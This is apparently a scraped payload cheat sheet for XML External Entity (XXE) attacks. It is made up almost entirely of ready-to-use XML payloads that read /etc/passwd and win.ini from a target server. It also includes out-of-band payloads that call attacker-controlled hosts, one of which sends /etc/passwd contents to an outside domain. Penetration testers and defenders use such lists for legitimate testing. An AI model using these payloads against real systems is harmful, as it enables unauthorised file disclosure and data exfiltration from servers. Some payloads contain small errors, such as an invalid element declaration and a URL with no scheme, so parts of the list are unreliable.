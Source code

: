```xml
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

  `windows`
 ```xml
  <?xml version = "1.0"?>
  <!DOCTYPE replace [<!ENTITY exploit SYSTEM "file:///windows/win.ini"> ]>
<order>
  <quantity>1</quantity>
  <item>
&exploit;
</item>
  <address>USA</address>
  </order>
 ```
If the output of the `win.ini` file on the target returns the response message, then it proves that the XML External Entity vulnerability is present.

### use replace funtion if case sensitive
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&exploit;</lastName>
</userInfo>
```

### XXE - Out-of-band - payloads
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
```
##### Send the content of `/etc/passwd` to `www.akr3ch.com`, you may receive only the first line.
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callme SYSTEM "www.akr3ch.com/?%xxe;">
]
>
<foo>&callme;</foo>
```
